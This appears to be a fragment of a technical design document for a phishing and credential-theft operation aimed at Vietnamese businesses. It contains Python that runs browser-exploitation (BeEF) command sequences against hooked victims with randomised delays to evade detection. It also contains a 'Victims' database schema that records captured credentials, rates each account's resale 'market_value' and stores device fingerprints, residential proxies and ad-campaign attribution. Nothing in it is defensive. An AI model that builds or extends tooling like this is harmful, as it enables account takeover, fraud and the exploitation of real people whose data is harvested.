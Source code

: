 ```python
        ]
        
        exploitation_results = []
        
        for command, params in exploitation_sequence:
            result = await self.execute_beef_command(hook_id, command, params)
            exploitation_results.append({
                'command': command,
                'parameters': params,
                'result': result,
                'timestamp': datetime.utcnow()
            })
            
            # Wait between commands để tránh detection
            await asyncio.sleep(random.uniform(2, 8))
        
        return exploitation_results
```

### Database Architecture & Schema Design

**Database Technology**: MongoDB (primary), Redis (caching/sessions), InfluxDB (time-series metrics)

**Core Collections Schema**:

#### Victims Collection
```javascript
{
  "_id": ObjectId("..."),
  "email": "ceo@techcorp.vn",
  "name": "Nguyễn Văn Nam",
  "password_hash": "$2b$12$encrypted_password_hash",
  "capture_date": ISODate("2025-10-04T15:30:25.000Z"),
  "validation": {
    "status": "validated",           // pending, validated, invalid
    "market_value": "high",          // low, medium, high
    "account_type": "business",      // personal, business, enterprise
    "validation_date": ISODate("2025-10-04T15:35:00.000Z"),
    "additional_data": {
      "gmail_labels": 147,
      "calendar_events": 89,
      "google_drive_files": 2341,
      "business_indicators": ["CEO", "Founder", "Executive"],
      "revenue_indicators": ["enterprise", "corporate", "limited"],
      "contact_quality_score": 0.92
    }
  },
  "session_data": {
    "ip_address": "192.168.1.100",
    "proxy_used": "socks5://vietnam-residential-01.proxy.com:1080",
    "user_agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)...",
    "fingerprint": {
      "screen_resolution": "1920x1080",
      "timezone": "Asia/Ho_Chi_Minh",
      "language": "vi-VN,vi;q=0.9,en;q=0.8",
      "plugins": ["Chrome PDF Plugin", "Widevine CDM", "Native Client"],
      "canvas_signature": "a1b2c3d4e5f6...",
      "webgl_signature": "Intel Inc. HD Graphics 620",
      "audio_signature": "44100:2:f32"
    },
    "referrer": "https://www.google.com/search?q=zalopay+merchant",
    "utm_source": "google_ads",
    "campaign_attribution": "vietnamese_sme_q4_2025"
```